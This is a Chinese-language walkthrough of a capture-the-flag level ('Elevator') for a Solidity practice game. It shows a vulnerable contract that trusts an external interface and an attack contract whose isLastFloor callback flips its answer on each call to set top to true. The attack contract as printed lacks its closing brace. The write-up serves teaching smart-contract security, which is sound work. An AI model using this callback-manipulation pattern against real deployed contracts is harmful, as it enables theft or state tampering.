 ### 第十一关 Elevator
### 难度2/5
## 这一关的通关条件是把top变为true。
## 代码如下：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
代码分为两部分，第一部分是个接口，第二部分是合约，合约里只有一个函数。注意看函数里的if条件，首先判断building.isLastFloor(_floor)为false才能进入下面的逻辑，但是最后top总是会被赋值为false。乍一看，好像top永远都不会变为true。但是分析一下，isLastFloor是通过接口调用的，而且这个接口的定义与实现全凭我们随心所欲。所以我们的接口只要满足以下条件就行：
- 有isLastFloor函数
- 输入参数一个uint256的值
- 返回一个bool值以
- 每调用一次返回值便会在0和1之间翻转，这样就可以确保在goTo函数里，if判断能进去，再次调用的时候top也能变为true。
## 解题步骤：
1. 打开remix，写攻击合约，goTo参数随便送一个数字即可，我喜欢3，送入3:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator{
    function goTo(uint256 _floor) external;
}

contract Building{
    
    bool public isTop = true;

    address hackedAddress;
    constructor(address _hackedAddress){
        hackedAddress = _hackedAddress;
   }

    function isLastFloor(uint) external returns (bool) {
        isTop = !isTop; 
        return isTop;
    }

   function attack() public {
        IElevator(hackedAddress).goTo(3);
    }
```
2. 运行合约，部署，调用attack函数。
3. 提交过关。

